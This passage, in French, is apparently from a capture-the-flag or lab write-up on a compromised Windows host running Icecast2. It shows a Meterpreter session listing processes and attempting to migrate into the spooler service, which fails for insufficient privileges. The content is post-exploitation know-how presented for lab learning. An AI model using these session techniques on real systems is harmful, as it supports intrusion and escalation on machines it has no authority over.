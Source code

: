 ## We're in, now what ?

On liste les process avec `ps` :

```sh
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User          Path
 ---   ----  ----                  ----  -------  ----          ----
 0     0     [System Process]                                   
 4     0     System                                             
 416   4     smss.exe                                           
 500   692   svchost.exe                                        
 544   536   csrss.exe                                          
 588   692   svchost.exe                                        
 592   536   wininit.exe                                        
 604   584   csrss.exe                                          
 652   584   winlogon.exe                                       
 692   592   services.exe                                       
 700   592   lsass.exe                                          
 708   592   lsm.exe                                            
 816   692   svchost.exe                                        
 884   692   svchost.exe                                        
 932   692   svchost.exe                                        
 956   816   slui.exe              x64   1        Dark-PC\Dark  C:\Windows\System32\slui.exe
 1060  692   svchost.exe                                        
 1188  692   svchost.exe                                        
 1296  500   dwm.exe               x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1316  1288  explorer.exe          x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1368  692   spoolsv.exe                                        
 1396  692   svchost.exe                                        
 1460  692   taskhost.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1540  692   amazon-ssm-agent.exe                               
 1636  692   LiteAgent.exe                                      
 1676  692   svchost.exe                                        
 1816  692   Ec2Config.exe                                      
 2068  692   svchost.exe                                        
 2280  1316  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 2616  816   rundll32.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\rundll32.exe
 2652  692   SearchIndexer.exe                                  
 2660  2616  dinotify.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\dinotify.exe
 2800  692   sppsvc.exe
```

On observe que spool a le process 1368, dans lequel on essaie de migrer avec `migrate` :

```sh
meterpreter > migrate 1368
[*] Migrating from 2280 to 1368...
[-] Error running command migrate: Rex::RuntimeError Cannot migrate into this process (insufficient privileges)
```
